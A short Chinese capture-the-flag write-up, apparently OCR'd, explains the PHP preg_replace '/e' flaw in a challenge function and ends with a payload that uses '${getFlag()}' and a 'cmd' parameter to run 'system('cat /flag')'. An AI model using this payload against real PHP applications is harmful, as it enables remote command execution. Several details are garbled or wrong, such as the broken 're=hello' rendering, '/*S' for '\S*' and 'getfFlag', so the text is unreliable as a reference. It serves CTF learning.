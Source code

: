 foreach 函数 将数组键和键值分别赋值给两个变量

**实例演示：**

```
$row=array('one'=>1,'two'=>2);
foreach($row as $key=>$val){
echo $key.'--'.$val;
#one--1
#two--2 
```

而题目是`foreach($_GET as $re => $str)`，假设用GET方法传一个`index.php?hello=world`那么 r e = h e l l o ， re=hello， re=hello，str=world

然后是preg_replace 函数的 /e 漏洞

```
function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
} 
```

strtolower 函数用于把大写字母转化为小写

\1 会取出正则表达式中第一个子匹配的第一项

所以我们要构造$re=/*S这样整个正则式就变为了

```
preg_replace('/(' . \S* . ')/ei','strtolower("\\S*")',$str) 
```

进一步

```
preg_replace('/(' . \S* . ')/ei',\\s*,$str) 
```

\s*在正则中表示匹配任意字符

这样就很明确了

我们要通过前端执行getFlag()函数 然后传getFlag()的参数cmd为命令执行

构造payload：

？(\S*)=${getfFlag()}&cmd=system(‘cat /flag’)

#### 最后一个疑问 为啥是`${getFlag()}`，而不是getFlag()

在php中，双引号里面如果包含有变量，php解释器会进行解析（不会被处理为函数）；单引号中的变量不会被处理。

而题目中`\1`就是被双引号包围起来的我们应该利用php的可变变量 不然getFlag()不会被作为函数执行

#### php可变变量
